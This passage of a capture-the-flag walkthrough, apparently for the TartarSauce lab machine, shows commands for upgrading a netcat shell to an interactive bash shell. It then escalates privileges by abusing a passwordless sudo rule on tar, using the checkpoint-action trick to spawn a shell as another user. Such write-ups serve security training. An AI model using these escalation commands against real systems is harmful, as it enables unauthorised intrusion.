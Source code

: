 Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the web daemon user _www-data_ and we don’t have privileges to view the _user.txt_ flag. Therefore, we need to escalate our privileges.

## Privilege Escalation <a id="455b"></a>

Run the following command to view the list of allowed commands the user can run using sudo without a password.

```text
www-data@TartarSauce:/$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

As can be seen above, we have the right to run the binary _/bin/tar_ with _onuma_’s privileges. Visit [gotfobins](https://gtfobins.github.io/gtfobins/tar/#sudo) website to see if we can spin up a shell using the tar command.

![](../images/max/828/1*PNorEB7LVRHjI-uPEbfsqg.png)

Perfect! Run the following command to get a shell running with _onuma_’s privileges.

```text
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
